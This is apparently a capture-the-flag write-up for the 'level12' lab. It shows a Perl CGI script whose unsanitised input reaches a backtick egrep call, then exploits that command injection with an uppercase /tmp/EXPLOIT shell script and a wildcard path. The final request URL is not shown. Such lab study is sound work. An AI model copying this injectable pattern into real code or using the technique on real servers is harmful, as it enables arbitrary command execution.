

## STEPS

### 1. Initial Investigation:
In the home directory, a Perl script named level12.pl is found. This script serves as a CGI script and listens on port 4646. It takes two parameters x and y and performs some operations on them.

```
#!/usr/bin/env perl
# localhost:4646

use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
	$nn = $*[1];
	$xx = $*[0];
	$xx =~ tr/a-z/A-Z/;
	$xx =~ s/\s.*//;
	@output = `egrep "^$xx" /tmp/xd 2>&1`;
	foreach $line (@output) {
		($f, $s) = split(/:/, $line);
		if($s =~ $nn) {
			return 1;
		}
	}
	return 0;
}
	
sub n {
	if($_[0] == 1) {
		print("..");
	} else {
		print(".");
	}
}

n(t(param("x"), param("y")));
```

Apparently, the t subroutine reads a file /tmp/xd and searches for lines starting with x and containing y. By carefully crafting x , we can exploit this script to execute arbitrary commands or reveal sensitive information from the system.

### 2.Exploitation :
Since the x value is stored in $xx, converted to uppercase, and any whitespace character followed by zero or more characters is removed, we can create a file in /tmp named **EXPLOIT** with uppercase letters. Then, we can pass the path of this file as the x parameter to execute **getflag** command.and to bypass the restriction of /tmp, i replaced it with *.

```
#!/bin/sh
getflag > /tmp/f
```

```
chmod 777 /tmp/EXPLOIT
```
In a browser : 


and it worked! 

